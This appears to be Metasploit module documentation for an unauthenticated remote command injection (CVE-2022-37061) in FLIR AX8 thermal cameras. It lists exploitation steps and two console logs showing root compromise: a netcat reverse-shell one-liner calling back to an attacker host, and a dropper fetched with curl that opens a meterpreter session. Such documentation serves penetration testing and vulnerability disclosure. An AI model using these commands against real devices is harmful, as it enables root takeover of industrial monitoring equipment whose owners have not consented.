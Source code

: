 ## Vulnerable Application

FLIR AX8 is a thermal sensor with imaging capabilities, combining thermal and visual cameras
that provides continuous temperature monitoring and alarming for critical electrical and mechanical equipment.
This device is typically used for monitoring industrial environments in a LAN based configuration.
Occasionally you can find a FLIR AX8 device where the HTTP web interface is exposed to the public internet.

FLIR AX8 is affected by an unauthenticated remote command injection vulnerability.
This can be exploited to inject and execute arbitrary shell commands as the root user through the `id` HTTP POST parameter
in `res.php` endpoint.
A successful exploit could allow the attacker to execute arbitrary commands on the underlying operating system with the root privileges.
This issue affects all FLIR AX8 thermal sensor cameras version up to and including `1.46.16`.

The endpoint `/res.php` can be called remotely without user authentication as there is no cookie verification `Cookie: PHPSESSID=ID`
to check if the request is legitimate. The second problem is that the POST parameter id can be injected to execute any unix command.

Installing a vulnerable test bed requires a FLIR AX8 camera with the vulnerable firmware loaded.

This module has been tested against a FLIR AX8 camera with the specifications listed below:

* FLIR AX8 thermal camera
* Firmware v1.40.16

## Verification Steps

1. `use exploit/linux/http/flir_ax8_unauth_rce_cve_2022_37061`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-Unix command or 1-Linux Dropper>`
1. `exploit`
1. You should get a `netcat` shell or `meterpreter` session depending on the target and payload settings.

## Options
No specific options.

## Scenarios

### FLIR AX8 netcat reverse shell

```
msf6 > use exploit/linux/http/flir_ax8_unauth_rce_cve_2022_37061
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > options

Module options (exploit/linux/http/flir_ax8_unauth_rce_cve_2022_37061):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all add
                                       resses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting    Required  Description
   ----   ---------------    --------  -----------
   LHOST                     yes       The listen address (an interface may be specified)
   LPORT                     yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set lport 4444
lport => 4444
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set target 0
target => 0
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.180:80 can be exploited!
[*] Performing command injection test issuing a sleep command of 10 seconds.
[*] Elapsed time: 10.947262728999704 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Unix Command with mkfifo /tmp/eyhxvh; nc 192.168.100.7 4444 0</tmp/eyhxvh | /bin/sh >/tmp/eyhxvh 2>&1; rm /tmp/eyhxvh
[*] Command shell session 1 opened (127.0.0.1:4444 -> 127.0.0.1:37980) at 2022-10-21 07:00:16 +0000

whoami
root
uname -a
Linux neco 3.0.35-flir #1 PREEMPT Thu Oct 20 08:20:20 CET 2022 armv7l GNU/Linux
exit
```

### FLIR AX8 meterpreter session

```
msf6 > use exploit/linux/http/flir_ax8_unauth_rce_cve_2022_37061
[*] Using configured payload linux/armle/meterpreter_reverse_tcp
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > options

Module options (exploit/linux/http/flir_ax8_unauth_rce_cve_2022_37061):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to li>
                                       resses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/armle/meterpreter_reverse_tcp):

   Name   Current Setting    Required  Description
   ----   ---------------    --------  -----------
   LHOST                     yes       The listen address (an interface may be specified)
   LPORT                     yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set lport 4444
lport => 4444
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set target 1
target => 1
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.180:80 can be exploited!
[*] Performing command injection test issuing a sleep command of 7 seconds.
[*] Elapsed time: 7.929586360999565 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Linux Dropper
[*] Using URL: http://0.0.0.0:8080/GOCjBdalaU
[*] Client 127.0.0.1 (curl/7.33.0) requested /GOCjBdalaU
[*] Sending payload to 127.0.0.1 (curl/7.33.0)
[*] Meterpreter session 2 opened (127.0.0.1:4444 -> 127.0.0.1:56540) at 2022-10-21 07:02:57 +0000
[*] Command Stager progress - 100.00% done (125/125 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.100.180
OS           :  (Linux neco 3.0.35-flir)
Architecture : armv7l
BuildTuple   : armv5l-linux-musleabi
Meterpreter  : armle/linux
meterpreter > getuid
Server username: root
meterpreter >
```

## Limitations
Staged payloads like `linux/armle/meterpreter/reverse_tcp` or `linux/armle/shell/reverse_tcp` do not work.
Manually tested these payloads with `msfvenom`, but they produce segmentation vaults when executed on the target.
However stageless payloads such as `linux/armle/meterpreter_reverse_tcp` and `linux/armle/shell_reverse_tcp` are working.
